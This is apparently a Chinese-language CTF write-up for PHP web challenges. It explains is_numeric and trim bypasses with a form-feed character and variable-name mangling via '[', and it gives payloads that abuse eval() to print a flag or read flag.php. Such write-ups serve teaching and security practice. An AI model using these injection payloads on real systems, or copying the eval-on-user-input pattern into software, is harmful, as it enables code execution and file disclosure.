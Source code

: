 ```php
```

看关键判断

`if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36')`

1、在数字前加不可见字符可以通过is_numeric()的判断，且`强比较`不为36

2、trim函数会把字符串前后空白字符去除(`空格%20`、`制表tab%09`、`换行%0a`、`回车%0d`、`垂直制表%0b`、`空字符%00`)

不过还有个`换页键%0c`可用

3、filter函数把$num里的`0x`、`0`、`.`、`e`、`+`都替换为1

可能疑惑的点是`$num!=='36'`和`$num=='36'`,这里就是强弱比较的差别

强比较比较类型和值；弱比较只比较值，如果类型不同，则转换类型再比较

`$num!=='36'`中，二者都是字符串类型，但值不同，因此不等
`$num=='36'`中，涉及数字的比较，会转换为数字类型再比较，从而相等

```
?num=%0c36
```

## 123、125、126-argv

```php
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}

# 125
if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16)
```

第一个是利用了：

php的变量名会默认把遇到的第一个`.`转换成`下划线_`

但如果出现了`[`，那么这个`[`转变为下划线后，后面的点并不会转化，可能是底层源码的问题
`CTF[SHOW.COM=>CTF_SHOW.COM`

然后就可以利用`eval("$c".";");`来rce；不过这个是非预期

```
POST:
CTF_SHOW=&CTF[SHOW.COM=&fun=echo $flag

# 125把flag过滤掉了，但还有别的办法
GET:
?1=flag.php
POST:
CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[1])
```
